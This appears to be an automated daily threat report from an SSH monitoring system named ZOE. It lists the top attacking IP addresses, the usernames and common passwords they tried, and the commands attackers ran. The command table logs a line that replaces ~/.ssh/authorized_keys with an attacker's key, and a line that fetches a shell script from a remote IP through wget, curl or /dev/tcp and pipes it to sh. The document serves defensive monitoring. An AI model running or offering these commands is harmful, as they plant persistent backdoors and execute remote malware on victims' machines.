 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.238.4.62 | 5861 |
| 8.134.192.181 | 4612 |
| 8.137.12.155 | 4471 |
| 123.56.193.120 | 4422 |
| 47.243.61.112 | 4346 |
| 119.23.251.201 | 1248 |
| 192.250.224.76 | 582 |
| 8.130.102.128 | 427 |
| 81.0.248.203 | 380 |
| 43.159.148.17 | 371 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 851 |
| ubuntu | 380 |
| test | 253 |
| user | 163 |
| admin | 94 |
| sysadmin | 93 |
| support | 80 |
| postgres | 54 |
| odoo | 53 |
| steam | 48 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| password | 146 |
| P@ssw0rd | 135 |
| 123456 | 133 |
| test | 84 |
| 1qq2w3e4r5t | 79 |
| admin | 63 |
| root | 62 |
| 12345678 | 48 |
| 1 | 47 |
| test123 | 44 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 211.253.10.96 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 211.253.10.96 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 211.253.10.96 | cat /proc/cpuinfo \| grep name \| wc -l |
| 61.171.48.20 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 61.171.48.20 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 61.171.48.20 | cat /proc/cpuinfo \| grep name \| wc -l |
| 5.182.211.148 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 120.27.219.138 | uname -s -m |
